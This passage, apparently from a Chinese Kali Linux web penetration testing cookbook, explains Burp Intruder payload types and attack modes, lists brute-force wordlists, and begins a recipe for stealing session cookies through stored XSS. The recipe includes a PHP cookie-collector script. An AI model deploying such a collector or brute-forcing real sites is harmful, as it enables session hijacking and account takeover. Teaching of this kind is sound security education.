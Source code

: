 ### 工作原理

Intruder 所做的是，修改请求的特定部分，并使用定义好的载荷替换这些部分的值。载荷可以是这些东西：

*   简单列表：来自文件，由剪贴板传递或者写在文本框中的列表。

*   运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大，它不会完全加载进内存。

*   数字：生成一列顺序或随机的数字，以十进制或十六进制形式。

*   用户名生成器：接受邮件地址列表，从中提取可能的用户。

*   爆破器：接受字符集并使用它来生成指定长度的所有排列。

这些载荷由Intruder以不同形式发送，在`Positions`标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

*   Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置，一次一个。

*   Battering ram：类似Sniper，它使用载荷的单一集合，不同点是它在每个请求中将所有位置设置为相同的值。

*   Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如，测试已知的用户名和密码。

*   Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

对于结果，我们可以看到所有失败尝试都有相同的响应，这里是 811 字节。所以我们假设成功响应的长度应该不同（因为它会重定向到用户主页）。如果碰巧成功和失败请求长度相同，我们也可以检查状态码或者使用搜索框来寻找响应中的特定模式。

### 更多

Kali 包含了非常实用的密码字典和单词列表集合，位于`/usr/ share/wordlists`。一些文件可以在这里找到：

*   `rockyou.txt`：Rockyou.com在 2010 年被攻破，泄露了多于 14 亿的密码，这个列表包含它们。

*   `dnsmap.txt`：包含常用的子域名称，例如内部网络、FTP或者WWW。在我们爆破 DNS 服务器时非常实用。

*   `./dirbuster/*`：`dirbuster`目录包含Web 服务器中常见的文件名称，这些文件可以在使用`DirBuster`或 OWASP ZAP 强制浏览时使用。

*   `./wfuzz/*`：在这个目录中，我们可以找到用于Web 攻击的模糊字符串的大量集合，以及爆破文件。

## 6.6 通过 XSS 获得会话 Cookie

我们已经谈论过了 XSS，它是现在最常见的 Web 攻击之一。XSS 可以用于欺骗用户，通过模仿登录页面来获得身份，或者通过执行客户端命令来收集信息，或者通过获得会话 cookie 以及冒充在攻击者的浏览器中的正常用户来劫持会话。

这个秘籍中，我们会利用持久性 XSS 来获得用户的会话 Cookie，之后使用这个 cookie 来通过移植到另一个浏览器来劫持会话，之后冒充用户来执行操作。

### 准备

对于这个秘籍，我们需要启动 Web 服务器作为我们的 cookie 收集器，所以在我们攻击之前，我们需要启动 Kali 中的 Apache，之后在 root 终端中执行下列命令：

```
service apache2 start
```

在这本书所使用的系统中，Apache 的文档根目录位于`/var/www/html`，创建叫做`savecookie.php`的文件并输入下列代码：

```
<?php 
$fp = fopen('/tmp/cookie_data.txt', 'a'); 
fwrite($fp, $_GET["cookie"] . "\n"); 
fclose($fp); 
?>
```
